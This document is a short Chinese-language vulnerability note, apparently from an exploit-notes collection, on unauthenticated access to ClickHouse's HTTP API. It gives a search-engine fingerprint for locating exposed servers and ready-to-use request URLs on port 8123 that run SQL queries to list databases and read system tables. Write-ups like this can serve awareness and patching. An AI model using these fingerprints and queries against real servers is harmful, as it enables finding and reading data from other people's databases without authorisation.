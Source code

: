 # ClickHouse API 数据库接口未授权访问漏洞

# ClickHouse API 数据库接口未授权访问漏洞

## 漏洞描述

ClickHouse API 数据库接口存在未授权访问漏洞，攻击者通过漏洞可以执行任意SQL命令获取数据库数据

## 漏洞影响

```
ClickHouse
```

## 网络测绘

```
"ClickHouse" && body="ok"
```

## 漏洞复现

登录页面

![img](/images/202202091258079.png)

执行SQL语句

![img](/images/202202091258245.png)

```
http://your-ip:8123/?query=SELECT%20*%20FROM%20system.query_thread_log%20LIMIT%201%20FORMAT%20Vertical
```

![img](images/202202091258274-16898396122771.png)

其他的SQL语句：

```
http://your-ip:8123/?query=SHOW%20DATABASES
```

```
http://your-ip:8123/?query=SELECT%20*%20FROM%20system.tables
```


